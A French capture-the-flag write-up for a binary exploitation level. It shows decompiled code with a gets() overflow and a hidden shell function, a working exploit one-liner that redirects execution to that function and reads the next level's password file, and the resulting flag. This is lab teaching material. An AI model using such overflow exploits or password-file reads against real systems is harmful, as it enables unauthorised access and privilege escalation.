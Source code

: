 # Rapport CTF - [Level01]

### Observation :
En arrivant sur le level1 on trouve un exécutable nommé level1. \
Quand nous essayons de le lancer, nous pouvons écrire une chaîne de caractère puis le programme ce stop. \
Regardons donc avec gdb ou un decompilateur.


### Explication de Code :
En lançant le binaire dans hex-ray ou ghidra nous obtenons :
```c
//----- (08048444) --------------------------------------------------------
int run()
{
fwrite("Good... Wait what?\n", 1u, 0x13u, stdout);
return system("/bin/sh");
}

//----- (08048480) --------------------------------------------------------
int __cdecl main(int argc, const char **argv, const char **envp)
{
char s[64]; // [esp+10h] [ebp-40h] BYREF

return (int)gets(s);
}
```
On peut voir qu'il existe une fonction `run()` qui permet de /bin/sh avec l'utilisateur level2. \
Malheureusement, cette fonction n'est jamais exécutée, nous devons donc trouver une manière de l'exécuter.

### Solution :

Le but est de lancer la fonction run() pour obtenir un shell avec les droits de l'utilisateur level2
Pour ce faire, il nous suffit de buffer overflow `s` avec plus de 64 octets pour remplacer l'adresse de retour, cela va nous faire jump dans notre fonction `run()`

Pour trouver notre adresse de `run` rien de plus simple nous pouvons regarder notre adresse avec gdb ou regarder hex-ray qui nous l'affiche directement au-dessus de la fonction  `(08048444)`

Comme nous sommes en little endian nous devons donc retourner notre chaîne de caractère pour que le binaire puisse le comprendre. \
Cet iterateur python permet de retourner une string : `[::-1]`

Nous regardons ensuite la stack de notre main avec gdb qui est égal a `0x50u` donc 80 octets, pour écraser l'adresse de notre return, il nous faut donc écrire `80 - 4 = 76` octets random puis notre adresse.

On fait la commande suivante pour obtenir le flag :
```sh
(python -c "print('A' * 76 + '\x08\x04\x84\x44'[::-1])" ; echo "cat /home/user/level2/.pass") | ./level1
```
### Resultat:
```sh
Good... Wait what? 
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```